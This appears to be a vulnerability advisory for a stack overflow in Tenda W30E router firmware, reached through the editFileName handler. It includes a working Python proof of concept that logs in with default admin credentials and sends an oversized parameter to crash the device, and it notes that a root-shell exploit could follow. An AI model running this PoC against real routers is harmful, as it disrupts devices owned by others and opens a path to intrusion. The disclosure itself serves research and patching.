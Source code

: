 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/editFileName/img/2.png)

In /goform/editFileName, editNameMit will be copied to s by strcpy. It is worth noting that there is no size check, which leads to a stack overflow vulnerability

## Poc

```python
import requests

cmd = b'editNameMit=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/editFileName/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell

